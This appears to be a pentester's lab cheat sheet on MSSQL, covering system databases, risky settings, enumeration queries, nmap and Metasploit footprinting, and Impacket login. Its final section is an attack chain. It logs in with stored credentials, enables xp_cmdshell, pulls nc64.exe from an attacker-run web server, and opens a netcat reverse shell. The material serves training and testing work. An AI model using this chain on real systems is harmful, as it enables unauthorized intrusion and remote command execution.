 # MSSQL
## Default system databases
| Default System Database | Description |
|-------------------------|-------------|
| master                  | Tracks all system information for an SQL server instance. |
| model                   | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database. |
| msdb                    | The SQL Server Agent uses this database to schedule jobs & alerts. |
| tempdb                  | Stores temporary objects such as temporary tables and stored procedures. |
| resource                | Read-only database containing system objects included with SQL server. |

## Confirugation
### Auth
Can be set to use Active Directory or SQL Server Authentication.

Using Active Directory can be ideal for auditing activity and controlling access in a Windows environment, but if an account is compromised, it could lead to privilege escalation and lateral movement across a Windows domain environment.

### Dangerous Settings
- there are countless ways here are some thinks we can look inside
- MSSQL clients not using encryption to connect to the MSSQL server
- The use of self-signed certificates when encryption is being used. It is possible to spoof self-signed certificates
- The use of named pipes
- Weak & default sa credentials. Admins may forget to disable this account

## Commands
| Task                          | SQL Command                                               |
|-------------------------------|-----------------------------------------------------------|
| Show all databases            | `SELECT name FROM sys.databases;`                         |
| Show all tables in a database | `USE database_name;` followed by `SELECT * FROM information_schema.tables;` |
| Show all users                | `SELECT name FROM sys.sysusers;`                          |
| Show table columns            | `USE database_name;` followed by `SELECT * FROM information_schema.columns WHERE table_name = 'table_name';` |
| Show current user             | `SELECT SYSTEM_USER;`                                     |
| Show database version         | `SELECT @@VERSION;`                                       |
| Show privileges               | `SELECT * FROM fn_my_permissions(NULL, 'DATABASE');`      |
| Show server properties        | `EXEC sp_configure;`                                      |


## Footprinting

### Nmap
```shell
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.221.151
```

### MSQL PING in Metasploit
```shell
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248
rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


### Clients
### find installed mssqlclients
```shell
locate mssqlclient
```
#### Impacket mssqlclient.py
```shell
python3 mssqlclient.py backdoor@10.129.221.151 -windows-auth
```
```sh
cd impacket/examples/
# this will give an mssql login
python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.101.236 -windows-auth 
SELECT is_srvrolemember('sysadmin'); # returns if we are sysadmin or not
# this cna be used to get cmdshell by enabling xp_cmdshell
EXEC xp_cmdshell 'net user';  #delivers error so not activated

#This is to activate it: 
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; #- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'net user'; #no error anymore

#download reverse shell script: https://github.com/int0x33/nc.exe/blob/master/nc64.exe
sudo python3 -m http.server 8001
sudo nc -lvnp 443

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9:8001/nc64.exe -outfile nc64.exe" # reverse shell exe to target
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443" #execute reverse shell with netcat connection
```
